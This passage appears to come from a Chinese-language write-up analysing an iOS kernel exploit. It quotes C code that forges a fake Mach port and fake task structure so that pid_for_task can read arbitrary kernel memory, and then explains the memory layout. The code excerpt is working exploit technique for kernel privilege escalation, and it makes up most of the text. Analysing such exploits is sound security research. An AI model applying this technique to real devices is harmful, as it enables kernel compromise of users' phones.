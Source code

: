 ```C
  // set the kobject pointer such that task->bsd_info reads from ip_context:
  int fake_task_offset = koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT) - koffset(KSTRUCT_OFFSET_TASK_BSD_INFO);
  
  uint64_t fake_task_address = dangling_port_address + fake_task_offset;
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT)) = fake_task_address;
  
  
  // when we looked for a port to make dangling we made sure it was correctly positioned on the page such that when we set the fake task
  // pointer up there it's actually all in the buffer so we can also set the reference count to leak it, let's double check that!

  if (fake_port + fake_task_offset < body) {
    printf("the maths is wrong somewhere, fake task doesn't fit in message\n");
    sleep(10);
    exit(EXIT_FAILURE);
  }

  uint8_t* fake_task = fake_port + fake_task_offset;
    
  // set the ref_count field of the fake task:
  *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_REF_COUNT)) = 0xd00d; // leak references
    
  // make sure the task is active
  *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_ACTIVE)) = 1;
    
  // set the vm_map of the fake task:
  *(uint64_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP)) = vm_map;
    
  // set the task lock type of the fake task's lock:
  *(uint8_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_LCK_MTX_TYPE)) = 0x22;
  return body;
}
```
注意fake_port和fake_task的位置，首先fake_port_和fake_task都在这个page内，其次fake_port的IP_KOBJECT指向fake_task，而且还要让task->bsd_info和ip_context重叠，这样后面只要设置context为任意地址值，就可以用pid_for_task读取任意内核内存了。  

![uaf_fake_port_task](/images/res/uaf_fake_port_task.png)  
    